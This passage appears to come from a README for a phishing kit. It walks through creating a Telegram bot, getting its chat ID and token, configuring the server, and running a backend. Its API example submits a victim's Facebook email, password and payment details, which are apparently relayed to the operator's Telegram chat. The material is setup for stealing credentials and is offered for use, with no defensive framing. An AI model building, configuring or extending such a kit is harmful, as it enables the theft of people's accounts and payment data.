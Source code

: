 ### **2. Create Telegram Bot**
- Message @BotFather on Telegram
- Send `/newbot`
- Choose name and username
- Copy bot token

### **3. Get Chat ID**
- Start chat with your bot
- Send any message
- Visit: `https://api.telegram.org/bot<TOKEN>/getUpdates`
- Find your chat ID in response

### **4. Environment Configuration**
Create `server/.env`:
```env
TELEGRAM_BOT_TOKEN=your_bot_token_here
TELEGRAM_CHAT_ID=your_chat_id_here
PORT=3001
NODE_ENV=development
```

### **5. Start Backend**
```bash
cd server
npm run dev
# or double-click start.bat on Windows
```

### **6. Start Frontend**
```bash
npm run dev
```

## 📡 **API Communication**

### **Frontend → Backend**
```javascript
// Form submission
const response = await fetch('http://localhost:3001/api/submit-form', {
  method: 'POST',
  headers: { 'Content-Type': 'application/json' },
  body: JSON.stringify({
    platform: 'facebook',
    email: 'user@example.com',
    password: 'userpassword',
    userAnswers: { /* payment details */ },
    timestamp: new Date().toISOString()
  })
})
```
